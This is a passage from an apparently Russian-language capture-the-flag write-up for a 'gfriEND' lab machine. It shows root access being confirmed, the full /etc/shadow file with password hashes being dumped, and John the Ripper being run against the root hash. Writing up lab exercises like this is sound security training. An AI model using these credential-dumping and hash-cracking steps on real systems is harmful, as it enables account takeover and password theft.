 ```html

Thanks! Flag 2: gfriEND{56fbeef560930e77ff984b644fde66e7}
root@gfriEND:/root# id
uid=0(root) gid=0(root) groups=0(root)
```

>После я хотел получить сам пароль root.

```html
root@gfriEND:/# cat etc/shadow
root:$6$j3OVyT76$XgTZVYI4tTaW8H00hanWrlDv2T49i663hXyza8A08CdkSEnVecTgR7CGNbaK8xKSRt.IYdalnCpYLHwPjSW48/:18243:0:99999:7:::
daemon:*:17959:0:99999:7:::
bin:*:17959:0:99999:7:::
sys:*:17959:0:99999:7:::
sync:*:17959:0:99999:7:::
games:*:17959:0:99999:7:::
man:*:17959:0:99999:7:::
lp:*:17959:0:99999:7:::
mail:*:17959:0:99999:7:::
news:*:17959:0:99999:7:::
uucp:*:17959:0:99999:7:::
proxy:*:17959:0:99999:7:::
www-data:*:17959:0:99999:7:::
backup:*:17959:0:99999:7:::
list:*:17959:0:99999:7:::
irc:*:17959:0:99999:7:::
gnats:*:17959:0:99999:7:::
nobody:*:17959:0:99999:7:::
libuuid:!:17959:0:99999:7:::
syslog:*:17959:0:99999:7:::
messagebus:*:18243:0:99999:7:::
landscape:*:18243:0:99999:7:::
bob:$6$aAzIW6D0$GYqdyqlSeU/A81xnMnqYI9iUOSbZbsn0motz5A7l1zBmQh1EBRMQ0ZCpt7O8snwKFehLLZrlKys04c6aOJAJB/:18243:0:99999:7:::
alice:$6$/R.qPBes$cS8fBXsEjNOKNfeuGD585HeCkEG1ayMiMah7wgYwvnLfvk9bLv7H2viHOQVwM/EFSGcx6ENZrhdTNsMLtOusS/:18243:0:99999:7:::
eweuhtandingan:$6$H59cpFOf$jfcHyJQhM6izoVwU9ZjKCH8priJvtyyvKXGX5kY7qkDiWZulxwcccvZiQK42VK.ypJG0AzgpAL97xofFLBZpi.:18243:0:99999:7:::
aingmaung:$6$l8sj1RAp$iyVxBjqX5vuhZYcSrfyrJoxQZVy3m/uibRkZ.yU5DM8U0fI/j5Itp5pbuPSqNP1EvjagcXDNrBIpARMWkP1tN1:18243:0:99999:7:::
sundatea:$6$OB3mKyCI$8WzBLqhepFSC0y9D8L27wlbCQhW75mARV0elpz7JBH6hPPfxU984SJXE5OgpVdFwtpB4xIJlOfREVkBA46C0D0:18243:0:99999:7:::
sshd:*:18243:0:99999:7:::
mysql:!:18243:0:99999:7:::<
```

>Сохранил хэш в файл и пытался перебрать с помощью john:

```html
┌─[user@parrot]─[~/Downloads]
└──╼ $john hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
```